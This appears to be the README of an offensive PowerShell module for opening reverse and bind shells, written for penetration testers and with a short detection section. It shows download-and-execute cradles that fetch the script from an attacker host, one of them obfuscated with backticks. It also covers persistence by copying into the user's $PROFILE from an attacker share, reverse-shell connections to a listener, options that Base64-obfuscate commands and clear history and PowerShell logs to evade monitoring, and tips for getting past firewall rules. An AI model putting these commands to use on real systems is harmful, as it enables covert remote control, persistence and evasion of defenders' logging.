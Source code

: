# ReversePowerShell
__See "Command Usage:" section below for command usage details__
### NOW IN POWERSHELL GALLERY!!!
```powershell
# Install Module
Install-Module ReversePowerShell

# Update Module
Update-Module -Name ReversePowerShell
# OR
Install-Module ReversePowerShell -Force
```
---

Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and Metasploit modules or whatever other listeners you use.
This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session.
If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.<br>
Install this module by placing the cloned folder "__ReversePowerShell__" inside the following directory location. You can view all available Module install directories by issung the command ```$env:PSModulePath```<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"__ <br>
 For PowerShell Core v6 the location of this module will need to be<br>
 __"$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"__<br>

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX), this module (ReversePowerShell) can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
Notice the .ps1 extension. When using downloadString this will need to be a ps1 file to inject the module into
memory in order to run the cmdlets.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.ps1")

# To obfuscate the above command you can do something like the below command
& (`G`C`M *ke-E*) '(& (`G`C`M *ew-O*) `N`E`T`.`W`E`B`C`L`I`E`N`T)."`D`O`W`N`L`O`A`D`S`T`R`I`N`G"('htt'+'p://'+'127.0.0.1/ReversePowerShell.ps1')
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a target machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer.

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
If (!(Test-Path -Path $PROFILE)) { New-Item -Path $PROFILE -ItemType File -Force }
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
> Adding this module into the PowerShell $PROFILE will import all of the commands every time the executing user opens a PowerShell session. This means you will need to open a new PowerShell session after doing this in order to access the commands. Just like using ```source .bashrc``` to apply changes to the ~/.bashrc file in a linux terminal you can reload the profile by doing the following.
```powershell
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1
powershell.exe # Maybe but not sure on this one
& $PROFILE
```

# Command Usage:

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future. You are able to use Ctrl + C to cancel the bind listener.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command was executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

### INVOKE-REVERSEPOWERSHELL USAGE INFORMATION
__SPECIAL FEATURES OF INVOKE-REVERSEPOWERSHELL__
- __Re-Connect Loop__ This cmdlet automatically attempts to reconnect to a listener if a session get disconnected. As long as the powershell process is running it will attempt to connect back to a listener every 30 seconds. In available situations a 30 second timer is displayed. The countdown timer can be viewed in the image below.
![Reconnection Timer Loop](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/ReconnectTimer.png)
- __Obfuscation__ parameter can be used to obfuscate executed commands using Base64. The Event Viewer will show logs such as the ones in the below image when this parameter is defined.
![Obfuscation in Event Viewer](https://raw.githubusercontent.com/tobor88/ReversePowerShell/master/images/PSObfuscatedEventLog.png)
- __Clear History__ parameter can be used to clear the current sessions command history and log file. The purpose of this is to help keep clear text passwords from appearing in log files.

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089
```

In the below command the listening port 8089 on 192.168.0.10 is connected too. When the session is exited the -ClearHistory parameter specified attempts to clear your sessions command history as well as clear the powershell log file.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -ClearHistory
```

The below command is to be issued on the Target Machine. The below command connected to the listener over port 8089. The -Obfuscate parameter obfuscates the commands executed using Base64 so they do not appear in clear text in the Event Log.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
# OR
# Including the default parameter set name issue the below command
Invoke-ReversePowerShell -Reverse -IpAddress 192.168.0.10 -Port 8089 -Obfuscate
```

#### ISSUE BIND SHELL CONNECTION
The below command is used to connect to a listening Bind Shell port. Any of the special parameters can be used to with the Bind parameter set name as well.
```powershell
Invoke-ReversePowerShell -Bind -IpAddress 192.168.0.10 -Port 8089
```

#### FIND EVIDENCE OF REVERSE SHELL CONNECTION
```powershell
# Check the localhost for evidence of reverse shell in the event logs
Find-ReversePowerShell

# Checks remote computer DC01 for evidence of a shell connection and saves the event results to C:\Temp\results.xml
Find-ReverseShell -ComputerName DC01.domain.com -FilePath C:\Temp\Results.xml
```

---
# MISC INFO
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
